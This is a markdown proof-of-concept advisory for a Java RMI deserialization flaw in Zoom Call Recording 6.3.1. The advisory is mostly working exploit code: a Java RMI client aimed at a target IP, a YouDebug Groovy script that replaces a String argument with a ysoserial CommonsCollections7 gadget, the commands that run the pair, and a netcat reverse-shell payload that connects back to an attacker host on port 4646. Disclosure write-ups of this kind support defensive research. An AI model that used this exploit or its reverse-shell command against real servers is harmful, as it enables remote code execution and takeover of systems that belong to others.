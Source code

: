 # Java RMI Deserialization via "Bypassing" Argument Type Safety

Zoom Call Recording 6.3.1 from [ZOOM International](https://www.zoomint.com/solutions/call-recording) exposes over RMI multiple functions that do not directly accept Java Objects as parameters.
<br/>
By using a Java Debugger, almost any function can be used to bypass the JEP290 protection and trigger deserialization at the application level.
<br/>
<strong>Note:</strong> This exploitation technique requires a more complex setup in order to run the exploit.

### Proof Of Concept:

For this example, we will be using the remote stub function "getCallRecModule(String)".
<br/>
As it can be seen the function only accepts Java "String", so we will need to bypass client-side checks in order to server a Java Object instead of a String. This will be done by using a Java Debugger (Ex. YouDebug), to catch and replace the String with a ysoserial object on the fly.
<br/>
To achieve this will require 3 steps:

#### 1. Java Code

We will use and compile the following Java code: 
```
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
import java.util.Properties;  
import java.rmi.Remote;
import java.rmi.RemoteException;

// stub interface and method required for the exploit
interface IRMICallRecAPI extends Remote {
    Remote getCallRecModule(String str) throws RemoteException;
}
  
public class ZoomRMI {  
    private static final String host = "<TARGET_IP>";  
    private static final int port = 30400;  
  
    public static void main(String[] args) {  
  
        try {  
            String serverIP = host;  
            int serverPort = port;  
            Properties props = System.getProperties();  
            props.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");
  
            System.out.println("Starting");  
            Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);  
            System.out.println("Reg fetch ok");  
            IRMICallRecAPI CallRecAPI_RMI = (IRMICallRecAPI) registry.lookup("CallRecAPI_RMI");
            CallRecAPI_RMI.getCallRecModule("Mal_String_Mal");
            System.out.println("Exploit");
  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
}
```

#### 2. YouDebug Code

The debugger will attach to the Java program to:
1. hook the "java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod()" function
1. look for our needle String (in this case "Mal_String_Mal")
1. replace it with a ysoserial "CommonsCollections7" serialized object

We will use the following Groovy code for the debugger:
```
def payloadName = "CommonsCollections7";  
def payloadCommand = "/usr/bin/nc -e /bin/bash <ATTACKER_IP> 4646";  
def needle = "Mal_String_Mal"  
  
println "Loaded..."  
  
// set a breakpoint at "invokeRemoteMethod", search the passed argument for a String object  
// that contains needle. If found, replace the object with the generated payload  
vm.methodEntryBreakpoint("java.rmi.server.RemoteObjectInvocationHandler", "invokeRemoteMethod") {  
  
  println "[+] java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod() is called"  
  
  // make sure that the payload class is loaded by the classloader of the debugee
  vm.loadClass("ysoserial.payloads." + payloadName);  
  
  // get the Array of Objects that were passed as Arguments  
  delegate."@2".eachWithIndex { arg,idx ->  
     println "[+] Argument " + idx + ": " + arg[0].toString();  
     if(arg[0].toString().contains(needle)) {  
        println "[+] Needle " + needle + " found, replacing String with payload"   
        // Create a new instance of the ysoserial payload in the debuggee  
        def payload = vm._new("ysoserial.payloads." + payloadName);  
        def payloadObject = payload.getObject(payloadCommand)  
     
        vm.ref("java.lang.reflect.Array").set(delegate."@2",idx, payloadObject);  
        println "[+] Done.."  
     }  
  }  
}
```

<strong>Note:</strong> In order for YouDebug to work, we will need to create a "libs" folder that will contain Java JAR libraries containing the required dependencies:
- [ysoserial.jar](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

#### 3. Running The Exploit

Now all that is left in to run the Java Compiled code with remote debugging arguments:
```
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=y,address=5005 ZoomRMI
```

And attach the YouDebugger to it:
```
java -jar youdebug-1.5.jar -socket 127.0.0.1:5005 zoom.groovy
```

<img src="YouDebug.png">

If the exploit is successful, we will receive back a reverse shell on port 4646.

<img src="../Reverse%20Shell.png"/>

### Additional Resources:

[Attacking Java RMI Services After JEP 290](https://mogwailabs.de/blog/2019/03/attacking-java-rmi-services-after-jep-290/)
<br/>
[YouDebug](http://youdebug.kohsuke.org/)
<br/>
[Ysoserial](https://github.com/frohoff/ysoserial)
